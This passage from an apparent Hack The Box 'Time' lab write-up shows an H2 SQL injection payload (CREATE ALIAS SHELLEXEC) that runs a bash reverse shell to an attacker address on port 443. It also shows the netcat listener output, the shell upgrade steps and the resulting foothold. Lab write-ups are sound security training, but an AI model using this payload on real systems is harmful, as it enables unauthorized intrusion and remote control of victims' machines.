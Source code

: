 You can use the same payload to trigger to download of the SQL file. Start up tcpdump and look at it:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/time]
└─$ sudo tcpdump -ni tun0 icmp
[sudo] password for user: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
10:58:53.061512 IP 10.10.10.214 > 10.10.16.6: ICMP echo request, id 1, seq 1, length 64
10:58:53.061601 IP 10.10.16.6 > 10.10.10.214: ICMP echo reply, id 1, seq 1, length 64
10:58:54.063041 IP 10.10.10.214 > 10.10.16.6: ICMP echo request, id 1, seq 2, length 64
10:58:54.063102 IP 10.10.16.6 > 10.10.10.214: ICMP echo reply, id 1, seq 2, length 64
10:58:55.064933 IP 10.10.10.214 > 10.10.16.6: ICMP echo request, id 1, seq 3, length 64
10:58:55.064995 IP 10.10.16.6 > 10.10.10.214: ICMP echo reply, id 1, seq 3, length 64
10:58:56.064922 IP 10.10.10.214 > 10.10.16.6: ICMP echo request, id 1, seq 4, length 64
10:58:56.064968 IP 10.10.16.6 > 10.10.10.214: ICMP echo reply, id 1, seq 4, length 64
```

That worked well. Let's create a simple bash reverse shell:

```java
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -c "bash -i >& /dev/tcp/10.10.16.6/443 0>&1"')
```

Start a netcat listener, update the inject.sql file and run the trigger the download again. Check the netcat listener:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/time]
└─$ nc -lvnp 443   
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.214] 33052
bash: cannot set terminal process group (861): Inappropriate ioctl for device
bash: no job control in this shell
pericles@time:/var/www/html$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
pericles@time:/var/www/html$ 

pericles@time:/var/www/html$ export TERM=xterm
export TERM=xterm
pericles@time:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 443

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/time]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

pericles@time:/var/www/html$ ^C
pericles@time:/var/www/html$ id
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
```
